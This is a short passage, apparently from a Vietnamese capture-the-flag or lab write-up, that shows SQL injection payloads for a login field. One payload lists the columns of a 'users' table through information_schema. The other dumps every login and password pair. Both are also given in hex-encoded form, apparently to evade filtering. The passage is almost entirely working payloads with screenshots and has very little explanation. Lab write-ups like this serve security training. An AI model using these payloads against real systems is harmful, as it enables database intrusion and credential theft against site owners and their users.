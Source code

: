 - Hiện tên cột trong bảng user:

`login='union select ' union SELECT NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- - -- -` => `login = 'union select ' 0x2720756e696f6e2053454c45435420312c67726f75705f636f6e63617428636f6c756d6e5f6e616d65292046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d20277573657273272d2d202d  -- -`

![1](img/49/Screenshot%20from%202023-01-31%2015-56-44.png)

- Hiện login và password là xong.

`
login='union select 'union SELECT NULL,group_concat(login,'-',password) FROM users-- - -- -
=> login = 'union select ' 0x27756e696f6e2053454c454354204e554c4c2c67726f75705f636f6e636174286c6f67696e2c27202d20272c70617373776f7264292046524f4d2075736572732d2d202d  -- -
`

![1](img/49/Screenshot%20from%202023-01-31%2015-52-28.png)
